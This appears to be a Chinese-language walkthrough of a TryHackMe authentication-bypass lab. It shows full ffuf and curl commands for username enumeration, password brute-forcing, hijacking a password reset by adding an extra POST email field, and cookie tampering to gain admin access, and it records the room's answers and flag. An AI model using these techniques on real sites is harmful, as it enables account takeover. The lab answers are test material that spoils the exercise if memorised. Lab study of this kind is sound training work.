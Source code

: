 # tsak1
```
no answer needed
```

# tsak2 
## 用戶名枚舉

網站錯誤消息是整理這些信息以構建我們的有效用戶名列表的重要資源。如果我們訪問 Acme IT 支持網站 ( http://10.10.116.236/customers/signup ) 註冊頁面，我們有一個創建新用戶帳戶的表單。



如果您嘗試輸入用戶名 admin 並使用虛假信息填寫其他表單字段，您將看到我們收到錯誤 An account with this username already exists。我們可以使用下面的 ffuf 工具，利用此錯誤消息的存在來生成已在系統上註冊的有效用戶名列表。ffuf 工具使用常用用戶名列表來檢查任何匹配項。
```
user@tryhackme$
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.116.236/customers/signup -mr "username already exists"
```

在上面的示例中，-w參數選擇文件在計算機上的位置，其中包含我們要檢查的用戶名列表是否存在。參數指定請求方法，-X默認為 GET 請求，但在我們的示例中為 POST 請求。-d參數指定我們要發送的數據。在我們的示例中，我們有字段用戶名、電子郵件、密碼和 cpassword。我們將用戶名的值設置為FUZZ。在 ffuf 工具中，FUZZ 關鍵字表示我們的詞表中的內容將被插入到請求中的什麼位置。該-H參數用於向請求添加額外的標頭。在這種情況下，我們將 設置Content-Type為網絡服務器知道我們正在發送表單數據。這-u參數指定我們向其發出請求的 URL，最後，-mr參數是我們正在尋找的頁面上的文本，以驗證我們是否找到了有效的用戶名。


命令的結果保存到名為 valid_usernames.txt 的文件中，我們可以在以後的任務中使用該文件


```
Q: 以 si*** 開頭的用戶名是什麼？
A: simon

Q: 以 st*** 開頭的用戶名是什麼？
A: steve

Q: 以 ro**** 開頭的用戶名是什麼？
A:robert
```
# tsak3
```
┌─[root@parrot]─[/home/user/Desktop]
└──╼ #vim valid_usernames.txt
┌─[root@parrot]─[/home/user/Desktop]
└──╼ #cat valid_usernames.txt 
simon
steve
robert
admin
```
因為我們使用了多個詞表，所以我們必須指定我們的自己的 FUZZ 關鍵字。在這種情況下，我們選擇W1了有效用戶名W2列表和我們將嘗試的密碼列表。多個詞表再次用-w參數指定，但用逗號分隔。對於肯定匹配，我們使用-fc參數來檢查 200 以外的 HTTP 狀態代碼。
```
 ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.116.236/customers/login -fc 200



----------------------------------------------
 [Status: 302, Size: 0, Words: 1, Lines: 1]
    * W1: steve
    * W2: thunder

```
```
什麼是有效的用戶名和密碼（格式：用戶名/密碼）？
steve/thunder
```
# tsak4

重置電子郵件過程的第二步中，用戶名在 POST 字段中提交到 Web 服務器，電子郵件地址在查詢字符串請求中作為 GET 字段發送。
```
 curl 'http://10.10.116.236/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```
使用該-H標誌向請求添加額外的標頭。在本例中，我們將設置Content-Type為application/x-www-form-urlencoded，這讓 Web 服務器知道我們正在發送表單數據，以便正確理解我們的請求。
在應用程序中，使用查詢字符串檢索用戶帳戶，但稍後，在應用程序邏輯中，使用 PHP 變量中的數據發送密碼重置電子郵件$_REQUEST。
```
PHP$_REQUEST變量是一個數組，其中包含從查詢字符串接收到的數據和 POST 數據。如果查詢字符串和 POST 數據使用相同的鍵名，則此變量的應用程序邏輯傾向於 POST 數據字段而不是查詢字符串，因此如果我們在 POST 表單中添加另一個參數，我們可以控制密碼重置的位置電子郵件送達。
```
------------------------------------------------------------
在電子郵件字段中使用您的@acmeitsupport.thm，您將在您的帳戶上創建一張票，其中包含一個鏈接，您可以以 Robert 的身份登錄。使用 Robert 的帳戶，您可以查看他們的支持票並顯示一個標誌
```
curl 'http://10.10.116.236/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=xiaocai@customer.acmeitsupport.thm'

讓他把重製的發給我的 xiaocai@customer.acmeitsupport.thm   
```

# tsak5
## Cookie Tampering
```
root@parrot]─[/home/user/Desktop]
└──╼ #curl http://10.10.116.236/cookie-test
Not Logged In


返回了一條消息：未登錄


[root@parrot]─[/home/user/Desktop]
└──╼ #curl -H "Cookie: logged_in=true; admin=false" http://10.10.116.236/cookie-test
Logged In As A User

將logged_in cookie設置為true，並將admin cookie設置為false：
收到消息：以用戶身份登錄

┌─[root@parrot]─[/home/user/Desktop]
└──╼ #curl -H "Cookie: logged_in=true; admin=true" http://10.10.116.236/cookie-test
Logged In As An Admin - THM{COOKIE_TAMPERING}

發送最後一個請求，將 logged_in 和 admin cookie 都設置為 true：
返回結果：以管理員身份登錄以及可用於回答問題一的標誌
```
